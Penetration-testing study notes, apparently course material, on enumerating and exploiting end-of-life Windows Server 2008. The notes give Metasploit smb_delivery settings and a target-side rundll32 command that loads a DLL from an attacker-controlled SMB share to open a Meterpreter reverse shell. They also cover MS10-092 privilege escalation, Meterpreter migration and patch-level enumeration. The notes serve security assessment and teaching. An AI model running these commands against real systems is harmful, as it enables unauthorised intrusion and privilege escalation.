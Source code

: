 
### Windows Server 2008 Enumeration
```powershell
wmic qfe
powershell.exe -ExecutionPolicy Bypass -File Sherlock.ps1
powershell.exe -ExecutionPolicy Bypass -Command "Import-Module .\Sherlock.ps1; Find-AllVulns"
```

### Metasploit (smb_delivery)
```bash
msf6 exploit(windows/smb/smb_delivery) > use exploit/windows/smb/smb_delivery
msf6 exploit(windows/smb/smb_delivery) > set SRVHOST <attacker_ip>
msf6 exploit(windows/smb/smb_delivery) > set LHOST <attacker_ip>
msf6 exploit(windows/smb/smb_delivery) > set LPORT 4444
msf6 exploit(windows/smb/smb_delivery) > set target 0
msf6 exploit(windows/smb/smb_delivery) > exploit
```

### Target (Run from cmd.exe)
```bash
rundll32.exe \\<attacker_ip>\\lEUZam\\test.dll,0
```

### Metasploit (ms10_092_schelevator)
```bash
msf6 exploit(windows/local/ms10_092_schelevator) > use exploit/windows/local/ms10_092_schelevator
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set LHOST <attacker_ip>
msf6 exploit(windows/local/ms10_092_schelevator) > set LPORT 4443
msf6 exploit(windows/local/ms10_092_schelevator) > exploit
```

### Meterpreter Commands
```bash
meterpreter > getpid
meterpreter > ps
meterpreter > migrate <pid>
meterpreter > background
meterpreter > getuid
meterpreter > sysinfo
```


**Key Points:**

- **EOL Status:**
    - Windows Server 2008/2008 R2 reached end-of-life on January 14, 2020.
- **Security Differences:**
    - Older versions lack many security enhancements found in newer Windows Server releases (e.g., Enhanced Windows Defender ATP, Credential Guard, Device Guard, AppLocker, Control Flow Guard).
- **Case Study Importance:**
    - Understanding the client's business context is crucial when dealing with legacy systems.
    - Recommendations should consider the impact on critical applications and potential mitigation strategies (e.g., network segmentation).
- **Enumeration and Exploitation:**
    - Tools like Sherlock and Windows-Exploit-Suggester can identify missing patches and potential vulnerabilities.
    - Manual enumeration of patch levels is also possible.
    - `wmic qfe` is used to query the current patch level.
- **Exploitation Walkthrough:**
    - Example uses the MS10-092 Task Scheduler vulnerability for privilege escalation.
    - Steps include:
        - Obtaining a Meterpreter reverse shell using `smb_delivery`.
        - Migrating to a 64-bit process.
        - Using the `ms10_092_schelevator` module.
        - The example also shows how to use `ps` and `migrate` within metasploit.
- **Key tools and commands:**
    - `wmic qfe`
    - Sherlock.ps1
    - Windows-Exploit-Suggester
    - Metasploit (`smb_delivery`, `ms10_092_schelevator`)
    - Meterpreter commands (`getpid`, `ps`, `migrate`, `getuid`, `sysinfo`)

**In essence:**

- Windows Server 2008/2008 R2 presents unique security challenges due to its EOL status and lack of modern security features.
- Thorough enumeration and careful consideration of the client's environment are essential when assessing these systems.
- Older operating systems often have many available exploits.